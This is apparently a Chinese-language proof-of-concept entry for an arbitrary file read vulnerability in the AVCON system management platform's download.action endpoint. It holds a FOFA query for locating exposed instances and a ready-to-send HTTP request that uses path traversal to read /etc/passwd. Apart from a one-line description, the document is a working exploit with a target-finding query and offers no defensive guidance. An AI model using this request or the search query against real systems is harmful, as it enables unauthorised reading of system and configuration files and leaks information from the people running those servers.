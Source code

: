 # AVCON-系统管理平台download.action存在任意文件读取漏洞

AVCON-系统管理平台download.action存在任意文件读取漏洞，通过该漏洞读取配置文件信息，造成信息泄露漏洞

## fofa

```yaml
title="AVCON-系统管理平台"
```


## poc

```java
GET /download.action?filename=../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

